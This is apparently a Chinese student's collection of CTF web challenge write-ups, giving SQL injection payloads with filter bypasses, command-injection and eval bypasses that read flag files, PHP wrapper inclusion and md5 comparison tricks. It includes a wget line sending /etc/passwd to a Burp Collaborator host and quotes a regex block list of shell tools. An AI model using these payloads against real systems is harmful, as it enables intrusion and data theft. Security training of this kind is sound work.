# 课前准备wp

----

## [极客大挑战 2019]BabySQL

1. **判断闭合方式**

   ```
   分别尝试：
   1 and 1=1	#NO,Wrong username password！！！
   1 and 1=2	#NO,Wrong username password！！！
   1'\			
   #You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1'' at line 1
   ```

   可以判断出不是数字型注入而是字符型

2. **判断列数**

   ```
   http://7c5eccde-1444-46d0-ac2b-4bc7cb0080f1.node5.buuoj.cn:81/check.php
   ?username=1
   &password=1' order by 1 %23
   ```

   结果发现报错里`'der #'' at line 1`少了***or***再结合题目里的提醒，确定有字符被过滤，并且是替换成**null**

   * **解决过滤**

     多次尝试后发现可能有类似于replace()的函数过滤敏感字符，所以尝试重写将**union**写为**uunionnion**

3. **联合查询**

   ```
   ?username=1' uunionnion sselectelect 1,2%23&password=1			#错误
   ?username=1' uunionnion sselectelect 1,2,3%23&password=1		#成功
   ```

   并且在第二位和第三位有显示

   

4. **爆**

   ```
   payload:
   ?username=admin
   &password=1' ununionion seselectlect 1,(seselectlect group_concat(schema_name) frfromom infoorrmation_schema.schemata),3 %23
   ```

   爆库名得：information_schema, performance_schema, test, mysql, ctf, geek

   ```
   payload:
   ?username=admin
   &password=1' ununionion seselectlect 1,(seselectlect group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='ctf'),3 %23
   ```

   爆表名得：Flag

   ```
   payload:
   ?username=admin
   &password=1' ununionion seselectlect 1,(seselectlect group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_schema='ctf' anandd table_name='Flag'),3 %23
   ```

   爆列名得：flag

   ```
   payload：
   ?username=admin
   &password=1' ununionion seselectlect 1,(seselectlect group_concat(flag) frfromom ctf.Flag ),3 %23
   ```

   拿数据得：flag{5a754407-a417-435f-96ae-b4636051501d}

   

----

## [SWPUCTF 2021 新生赛]finalrce

1. **审计代码**

   ```php
   <?php
   highlight_file(__FILE__);
   if(isset($_GET['url']))
   {
       $url=$_GET['url'];
       if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
       {
           echo "Sorry,you can't use this.";
       }
       else
       {
           echo "Can you see anything?";
           exec($url);
       }
   }
   ```

   **使用preg_match()函数+正则表达式过滤了敏感字符**

2. **尝试绕过**

   ```
   payload：
   ?url=l''s
   ```

   仅仅输出：`Can you see anything?`，没有回显

* ***无回显REC***

  1. http外带

     可以使用wget或者curl命令去访问一个http服务，把要执行的命令隐藏在header头或者数据包的其它地方，在被访问的服务器中去查看该条日志。

     如下：使用wget将命令回显信息通过包头数据字符串User-Agent传输至攻击服务器上，xargs echo代表去掉各个分隔符，换行符等符号输出

     ```shell
     wget --header="User-Agent: $(cat /etc/passwd | xargs echo)" http://xxxx.burpcollaborator.net
     ```

  2. 保存到文件里

     ```shell
     ls / | tee 1.txt
     ```

3. **保存至文件里**

   ```
   payload：
   ?url=l''s / |tee 1.txt
   ```

   访问`url/1.txt`，得数据

   

4. **扒flag**

   ```
   payload：
   ?url=c'a't /flllll\aaaaaaggggggg |tee 1.txt
   ```

   得flag：`NSSCTF{6d321ba0-7260-4cda-bdde-f30165d1e654}`

----

## [ACTF2020 新生赛]Exec

1. **判断**

   尝试输入127.0.0.1，有数据输出

   猜测这是一个用`ping`命令拼接的脚本  

2. **命令混合**

   根据Linux命令，有“|”这个方式

   ```
   payload：
   127.0.0.1 |ls /
   ```

   回显为：

   

3. **用同样的方法读数据**

   ```
   payload：
   127.0.0.1 | cat /flag
   ```

   得：`flag{553d3799-8b55-46ca-a4af-b1cad111862f}`

----

## [SWPUCTF 2022 新生赛]webdog1__start

1. **审计代码**

   ```php
   if (isset($_GET['web']))
   {
       $first=$_GET['web'];
       if ($first==md5($first)) 
           ...
   }
   ```

   这类直接md5碰撞，用`payload：?first=0e215962017`

   进入一个新页面

   

2. **判断切入口**

   检查源代码，检查header，路径扫描三件套。

   路径扫描后发现~~裤子都扒干净了~~，robots.txt，start.php，fl4g.php

   

   将乱码解出后访问url/fl4g.php

   接着一次三件套后在`header`上找到提示`oh good job! but no flag ,come to F1l1l1l1l1lag.php`

3. **访问，审计代码**

   ```php
   <?php
   error_reporting(0);
   
   
   highlight_file(__FILE__);
   
   
   
   if (isset($_GET['get'])){
       $get=$_GET['get'];
       if(!strstr($get," ")){
           $get = str_ireplace("flag", " ", $get);
           
           if (strlen($get)>18){
               die("This is too long.");
               }
               
               else{
                   eval($get);
             } 
       }else {
           die("nonono"); 
       }
   
   }
   ?>
   ```

   * 如果传的参数里有空格会被过滤

     绕过空格可以用%09，%20，${IFS}，%0A

   * 超过18个字符会报错

   * 出现flag会被过滤

     用f*模糊匹配代替

   总结后payload：`?get=system('cat%09/f*');`，拿到flag：`NSSCTF{93f6edb0-a0bd-4288-8cad-e8fd2925774f}`

----

## [SWPUCTF 2021 新生赛]easy_sql

1. **审题**

   标题里告知参数是wlim，加上题目说明为sql注入

2. **判断闭合方式**

   ```
   ?wllm=1 and 1
   ?wllm=1 and 2
   ?wllm=1‘
   ```

   确定为字符型注入，且单引号闭合

3. **爆数据**

   爆库：`http://node4.anna.nssctf.cn:28652/?wllm=null' union select 1,database(),3--+` 	-->test_db

   爆表：`http://node4.anna.nssctf.cn:28652/?wllm=null' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+`	-->test_tb, users

   爆字段：`http://node4.anna.nssctf.cn:28652/?wllm=null' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3--+`	-->id, username, password

   爆数据：`http://node4.anna.nssctf.cn:28652/?wllm=null' union select 1,group_concat(flag),3 from test_tb--+` 	-->NSSCTF{7005cbc7-4384-4896-a74b-4ca6a896c328}

----

## [GXYCTF2019]禁止套娃

1. **准备工作**

   三件套后，路径扫描发现存在./git文件夹，确定为git泄露

   

   使用githack拿到代码

2. **代码审计**

   ```php
   <?php
   include "flag.php";
   echo "flag在哪里呢？<br>";
   if(isset($_GET['exp'])){
       if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
           if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
               if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                   // echo $_GET['exp'];
                   @eval($_GET['exp']);
               }
               else{
                   die("还差一点哦！");
               }
           }
           else{
               die("再好好想想！");
           }
       }
       else{
           die("还想读flag，臭弟弟！");
       }
   }
   // highlight_file(__FILE__);
   ?>
   ```

   * 不能使用伪协议
   * 无参rec

   构造payload： `index.php?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));`

----

## [鹏城杯 2022]简单包含

1. **三件套**

   源代码，header和路径扫描都没有明显的信息。根据题目信息是文件包含并且告诉了位置，尝试用伪协议读取

2. **php伪协议**

   构造payload：`flag=php://filter/read=convert.base64-encod/resource=./flag.php`，发现有waf

   

   尝试读取当前页面，绕过waf

   

   base64解密后，**审计代码**

   ```php
   <?php
   
   $path = $_POST["flag"];
   
   if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
       echo 'nssctf waf!';
   } else {
       @include($path);
   }
   ?>
   ```

   发现if语句里有漏洞，所以直接构造payload拿到flag

   

----

## [md5简单题目]

1. **审计代码**

   ```php
   <?php
   highlight_file(__FILE__);
   include_once('flag.php');
   
   if(isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a'])){
       if(isset($_POST['b1'])&&$_POST['b2']){
           if($_POST['b1']!=$_POST['b2']&&md5($_POST['b1'])===md5($_POST['b2'])){
               if($_POST['c1']!=$_POST['c2']&&is_string($_POST['c1'])&&is_string($_POST['c2'])&&md5($_POST['c1'])==md5($_POST['c2'])){
                   echo $flag;
               }else{
                   echo "yee";
               }
           }else{
               echo "nop";
           }
       }else{
           echo "go on";
       }
   }else{
       echo "let's get some php";
   }
   ?>
   ```

2. **问题分析**

   * 参数a不能有数字加上后面转化整数，可以考虑数组绕过
   * b1和b2不相同但md5值要完全一致，同样采用数组绕过
   * $_POST['c1']的值不等于$_POST['c2']，且$_POST['c1']和$_POST['c2']的值都是字符串且$_POST['c1']和$_POST['c2']的md5的值都要弱相等才能输出flag，直接采用md5开头为0e的值
   
   

----

## [进阶md5]

1. **万能密码**

   查了一下，是ffifdyop，这串字符md5加密后会变成`'or'6É]™é!r,ùíb`，拼接上去正好是select * from admin where password=''or'6<乱码> 

2. **检查代码**

   ```
   <!--
   $x= $GET['x'];
   $y = $_GET['y'];
   if($x != $y && md5($x) == md5($y)){
       ;
   -->
   ```

   与上题一样用数组绕过

   ```php
   <?php
   error_reporting(0);
   include "flag.php";
   
   highlight_file(__FILE__);
   
   if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
       echo $FLAG;
   }
   ```

   md5强比较同样可以使用数组绕过

----

## [极客大挑战 2019]HardSQL

1. **判断过滤词**

   

    从这一步就确定有过滤了

   用burp扫描过滤词

   

   

   所有长度为789的都被过滤，发现报错注入的关键词没有被过滤

2. **尝试报错注入**

   空格被过滤后可以用括号代替，其余方式与上相同

   

   然后发现回显不足，用截断函数处理

   payload：`concat(0x5e,right((select(group_concat(password))from(H4rDsq1)),31))`

----

## [WUSTCTF 2020]朴实无华

1. **找入手点**

